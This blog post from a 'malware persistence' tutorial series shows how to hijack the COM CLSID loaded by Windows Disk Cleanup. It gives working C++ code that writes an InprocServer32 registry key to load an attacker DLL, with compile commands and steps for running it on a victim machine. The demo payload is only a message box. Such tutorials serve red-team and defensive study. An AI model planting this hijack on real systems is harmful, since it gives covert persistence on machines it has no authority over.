 ```yaml
---
title:  "Malware development: persistence - part 19. Disk Cleanup Utility. Simple C++ example."
date:   2022-11-16 03:00:00 +0300
header:
  teaser: "/assets/images/80/2022-11-18_07-59.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/80/2022-11-18_07-59.png){:class="img-responsive"}    

This post is the just result of self-researching one of the interesting malware persistence trick: via Disk Cleanup Utility.     

### disk cleanup

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

![pers](/assets/images/80/2022-11-18_08-06.png){:class="img-responsive"}    

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](/assets/images/80/2022-11-18_04-42.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-44.png){:class="img-responsive"}    

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](/assets/images/80/2022-11-18_04-51.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-54.png){:class="img-responsive"}    

> For demo purposes, here I show the example of the registry from HKEY_CLASSES_ROOT because HKEY_CURRENT_USER is empty

This suggests, that we can use [COM DLL hijacking](/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

### practical example

First of all, as usually, create "evil" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, for simplicity, it's just `meow-meow` messagbox.    

And then create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}\\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

### demo

Let's go to compile our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](/assets/images/80/2022-11-18_05-14.png){:class="img-responsive"}    

And persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/80/2022-11-18_05-17.png){:class="img-responsive"}    

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](/assets/images/80/2022-11-18_07-56.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_07-57.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=     

But for persistence. requires the user to run Disk Cleanup Utility. Here, I can use [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence. Adding Disk Cleanup to run during the start-up may not be the best idea, because it has a GUI. I tried using the command line arguments of this program:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

But failed :(. It worked correctly:       

![pers](/assets/images/80/2022-11-18_08-45.png){:class="img-responsive"}    

I think I will return to this issue in one of the future posts.       

Also, according to microsoft documentation, we can add new entries to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](/tutorial/2022/05/02/malware-pers-3.html)       
[source code in github](https://github.com/cocomelonc/2022-11-16-malware-pers-19)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
